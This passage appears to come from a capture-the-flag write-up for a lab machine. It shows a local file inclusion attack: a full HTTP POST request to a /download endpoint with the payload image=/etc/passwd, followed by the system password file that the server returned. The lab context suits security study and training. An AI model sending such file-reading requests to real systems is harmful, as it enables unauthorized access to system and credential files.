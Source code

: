 So in order to abuse the LFI you simply need to send a POST req to the /download endpoint with a image argument in the body

Here is an example request

```text
POST http://beta.only4you.htb/download HTTP/1.1
Host: beta.only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://beta.only4you.htb
Connection: keep-alive
Referer: https://beta.only4you.htb/list
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

image=/etc/passwd
```

Here is /etc/passwd

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```